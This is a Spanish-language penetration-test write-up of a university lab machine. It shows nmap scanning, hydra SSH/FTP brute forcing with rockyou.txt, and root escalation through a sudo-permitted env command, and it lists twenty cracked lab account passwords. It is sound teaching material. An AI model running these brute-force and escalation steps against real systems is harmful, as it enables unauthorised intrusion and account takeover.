


# Desafío 1. Write Up
Por Tomas Santana. CI 30604530

## Resumen ejecutivo

En este desafío se realizó un Pen Testing de tipo Gray Box a una máquina virtual con dirección IP `172.17.0.2`. Se obtuvo acceso a la máquina con un ataque de fuerza bruta al servicio `ssh`, que nos permite obtener control remoto a un sistema si conocemos un usuario y contraseña válidos. 

Como se conocía un posible nombre de usuario, se aprovechó este hecho para probar contraseñas comunes con una herramienta de explotación de vulnerabilidades llamada `hydra`. Se obtuvo la contraseña del usuario `tsantana`, ya que usaba una clave presente en un diccionario de contraseñas conocido, `rockyou.txt`.

Una vez que se obtuvo acceso no privilegiado, información confidencial almacenada en el computador reveló la contraseña del usuario `hbracho`, que tiene acceso privilegiado a la máquina. Se utilizó esta información para obtener acceso privilegiado a la máquina.

Luego se utilizó una base de datos conocida, `GTFOBins`, para encontrar posibles vulnerabilidades en el sistema que permitieran obtener acceso root. Se encontró una vulnerabilidad en el comando `env` que permitía obtener una shell con permisos máximos en la máquina. Ejecutando este comando, se obtuvo control completo del sistema.

Usar contraseñas seguras y no almacenar información sensible de forma accesible por cualquier usuario son buenas prácticas que pudieron evitar este ataque. Deshabilitar el acceso por ssh con contraseña es otra buena estrategia.

## 0. Vista general

Se conoce que la máquina cuenta con 21 usuarios, correspondientes a los 20 estudiantes de la materia de ciberseguridad de la Universidad Rafael Urdaneta en el periodo 2024A, más el profesor de la materia. Se conoce que el profesor tiene el usuario `hbracho`. También se conoce que existe información importante y posiblemente sensible en el directorio `/opt`.

Como se conoce cierta información de la máquina, se considera que el Pen Testing es de tipo Gray Box.

## 1. Reconocimiento

Luego de desplegar la máquina y obtener la dirección IP (`172.17.0.2`), se procede a realizar un escaneo de puertos con `nmap`:

```bash
nmap -A -p- -sS 172.17.0.2
```
Donde se busca la versión de los servicios (opción `-A`), se escanean todos los puertos (opción `-p-`) y se realiza un escaneo de forma sigilosa (opción `-sS`). Se obtiene la siguiente información:



Se observa que la máquina cuenta con los servicios FTP (ProFTPD), SSH (OpenSSH 9.2p1 Debian 2+deb12u2), DNS (ISC BIND 9.18.24-1 (Debian Linux)) y HTTP (nginx 1.22.1).

## 2. Análisis de vulnerabilidades

En primer lugar, buscamos vulnerabilidades conocidas en los servicios que se encuentran activos en la máquina. Para esto se usan las bases de datos [Exploit Database](https://www.exploit-db.com/) y [CVE Details](https://www.cvedetails.com/). A primera vista no se consigue ninguna vulnerabilidad explotable para obtener acceso a la máquina, por lo que se intentará con otro enfoque.

Otra vulnerabilidad conocida es que se conoce el posible formato de los nombres de usuario de la máquina. Como en la máquina hay un usuario para cada estudiante de la materia de ciberseguridad de la Universidad Rafael Urdaneta en el periodo 2024A, y se conoce que el usuario del profesor es `hbracho` y su nombre es `Haller Bracho`, se puede intentar con los nombres de usuario de los estudiantes, por ejemplo `Tomas Santana` y `tsantana`.

## 3. Explotación de vulnerabilidades

Utilizando `hydra` se puede realizar un ataque de fuerza bruta a los servicios SSH y FTP de la máquina. Se utiliza el siguiente comando para realizar el ataque al servicio SSH

```bash
hydra -l tsantana -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

Donde se utiliza un solo nombre de usuario (`tsantana`) y un diccionario de contraseñas posibles (`rockyou.txt`). Como no se especifica la cantidad de hilos, `hydra` utilizará el máximo posible de la máquina. Muchas veces es recomendado limitar el número de tareas paralelas a 4. Al finalizar la ejecución se obtiene la siguiente respuesta:


Se obtiene la contraseña del usuario `tsantana` (`volleyball`). 

Puede realizarse el mismo ataque al servicio FTP, y se obtiene el mismo resultado.

```bash
hydra -l tsantana -P /usr/share/wordlists/rockyou.txt ftp://172.17.0.2
```


Ahora se puede acceder a la máquina con el usuario `tsantana` y la contraseña `volleyball`:

```bash
ssh tsantana@172.17.0.2 
```

E introducimos la contraseña `volleyball`. Se obtiene acceso a la máquina.


## 4. Escalamiento de privilegios

Ahora que hemos conseguido acceso a la máquina, podemos buscar la información sensible en el directorio `/opt`. 

```bash
ls /opt
```
Encontramos un archivo llamado `mensajeImportante`. Procedemos a leer el contenido del archivo:

```bash
cat /opt/mensajeImportante
```
Se obtiene la siguiente respuesta:


Se procede a buscar el código de la asignatura de Ciberseguridad de la Universidad Rafael Urdaneta. Este es `272T37`. Ahora se puede intentar acceder a la máquina con el usuario `hbracho` y la contraseña `272T37`:

```bash
ssh hbracho@172.17.0.2 
```

Introducimos la contraseña `272T37`. Se obtiene acceso a la máquina.


### Obtención del acceso root

Se debe encontrar una forma de obtener acceso root. Se puede intentar buscar binarios que pueda ejecutar el usuario `hbracho` con permisos de root. Para ello se puede utilizar el comando `sudo -l`:


Se observa que el usuario `hbracho` puede ejecutar el comando `/usr/bin/env` con permisos de root sin necesidad de contraseña. 

Utilizando [GTFOBins](https://gtfobins.github.io/) se puede encontrar una forma de obtener una shell con permisos de root utilizando el comando `sudo env`. Se puede intentar ejecutar el comando `sudo env` con el argumento `bash` para obtener una shell bash con permisos de root:

```bash
sudo env bash
```
En caso que la máquina no tenga `bash`, también puede abrirse una shell con permisos de root utilizando el comando `sudo env` con el argumento `sh`:

```bash
sudo env sh
```

En cualquier caso el resultado es el mismo, se obtiene una shell con permisos de root.


Se ha obtenido acceso root a la máquina.

### Exploración de la máquina

En primer lugar, una vez que tenemos acceso root, se puede determinar si el resultado de `nmap` es correcto. Se puede utilizar el comando `service` para listar los servicios que se están ejecutando en la máquina:

```bash
service --status-all'
```

Que muestra los servicios de la máquina:

```
 [ - ]  dbus
 [ ? ]  hwclock.sh
 [ + ]  named
 [ + ]  nginx
 [ - ]  procps
 [ + ]  proftpd
 [ + ]  ssh
 [ - ]  sudo
```

Se observa que los servicios `named`, `nginx`, `proftpd` y `ssh` están activos en la máquina, lo cual coincide con el resultado de `nmap`. Sin embargo, el resultado de `nmap` no mostró la version de `proftpd`. Podemos obtener la version de `proftpd` utilizando el comando `proftpd -v`:

```
root@39a4fb3fb0dc:/# proftpd -v
ProFTPD Version 1.3.8
```

Buscando en bases de datos de CVE, nos encontramos que hay ninguna vulnerabilidad grave en la version de `proftpd` que se encuentra en la máquina, por lo que no perdimos ninguna información vital para el ataque.

De resto, ningún otro servicio inactivo en la máquina tiene una versión vulnerable.

Por otro lado, se puede explorar la máquina para encontrar información adicional. Se puede buscar los usuarios de la máquina con el comando `cat /etc/passwd`:

```bash
cat /etc/passwd
```

Guardando la información de los usuarios en un archivo y utilizando hydra, se puede realizar un ataque de fuerza bruta a los servicios SSH de la máquina para obtener las contraseñas de los usuarios. Se puede utilizar el siguiente comando:

```bash
hydra -L ./usuarios.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
Y se obtiene las contraseñas de los usuarios de la máquina.

```
[22][ssh] host: 172.17.0.2   login: aavila   password: school
[22][ssh] host: 172.17.0.2   login: aparra   password: bowwow
[22][ssh] host: 172.17.0.2   login: dvaimberg   password: chester
[22][ssh] host: 172.17.0.2   login: jcarrillo   password: barcelona
[22][ssh] host: 172.17.0.2   login: mhernandez   password: cameron
[22][ssh] host: 172.17.0.2   login: parevalo   password: 0123456789
[22][ssh] host: 172.17.0.2   login: tsantana   password: volleyball
[22][ssh] host: 172.17.0.2   login: agarcia   password: orlando
[22][ssh] host: 172.17.0.2   login: cfernandez   password: august
[22][ssh] host: 172.17.0.2   login: gmendez   password: kitten
[22][ssh] host: 172.17.0.2   login: jlopez   password: slipknot
[22][ssh] host: 172.17.0.2   login: mstanzione   password: january
[22][ssh] host: 172.17.0.2   login: rmata   password: 50cent
[22][ssh] host: 172.17.0.2   login: ugedde   password: samuel
[22][ssh] host: 172.17.0.2   login: amalaver   password: monkey1
[22][ssh] host: 172.17.0.2   login: dlopez   password: cutiepie
[22][ssh] host: 172.17.0.2   login: jmavarez   password: adidas
[22][ssh] host: 172.17.0.2   login: murdaneta   password: tintin
[22][ssh] host: 172.17.0.2   login: rmerchan   password: mustang
[22][ssh] host: 172.17.0.2   login: vsalcedo   password: portugal
1 of 1 target successfully completed, 20 valid passwords found
```

Es importante hacer nota que no se requiere el acceso root para realizar este ataque, ya que con el usuario no privilegiado `tsantana` ya podíamos obtener acceso a los nombre de usuario de la máquina listando el directorio home, y como todas tenían contraseña insegura, pueden ser descubiertas fácilmente.

## 5. Recomendaciones

- Utilizar contraseñas seguras y no almacenar información sensible de forma accesible por cualquier usuario. Utilizar un generador de contraseñas es una forma de evitar ataques de fuerza bruta.
- Deshabilitar el acceso por ssh con contraseña y permitir únicamente el acceso por llaves.
